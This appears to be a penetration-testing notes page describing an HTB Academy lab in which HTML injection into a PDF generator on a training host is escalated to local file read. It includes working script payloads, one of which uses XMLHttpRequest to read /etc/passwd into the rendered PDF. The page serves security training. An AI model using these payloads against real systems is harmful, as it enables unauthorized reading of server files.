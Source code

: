 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SSRF -> LFI

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.
{% endhint %}

The site `tracking.inlanefreight.local` accepts a tracking number and generates a PDF document. The tracking number gets reflected in the PDF (Figure 1).

<figure><img src="../../../../.gitbook/assets/html_injection.png" alt=""><figcaption><p>Figure 1: The input gets reflected within the generated PDF.</p></figcaption></figure>

The input field takes any input, not just numbers, and accepts both HTML and JS (Figure 2).

{% tabs %}
{% tab title="HTML Payload" %}
```html
<h1>test</h1>
```
{% endtab %}

{% tab title="JS Payload" %}
```javascript
<script>document.write('TESTING THIS')</script>
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../../.gitbook/assets/html_injection_test.png" alt=""><figcaption><p>Figure 2: Testing HTML injection.</p></figcaption></figure>

Following [this](https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f) and [this](https://web.archive.org/web/20221207162417/https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/) post that use [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest), we can try to achieve LFI (Figure 3).

{% tabs %}
{% tab title="Payload" %}
```javascript
<script>
	x=new XMLHttpRequest;
	x.onload=function(){  
	document.write(this.responseText)};
	x.open("GET","file:///etc/passwd");
	x.send();
	</script>
```
{% endtab %}

{% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}

<figure><img src="../../../../.gitbook/assets/html_injection_to_lfi.png" alt=""><figcaption><p>Figure 3: HTML Injection to LFI.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="SSRF via PDF HTML Injection" %}
{% embed url="https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90" %}
{% endtab %}

{% tab title="SSRF to LFI via PDF HTML Injection" %}
{% embed url="https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f" %}
{% endtab %}
{% endtabs %}


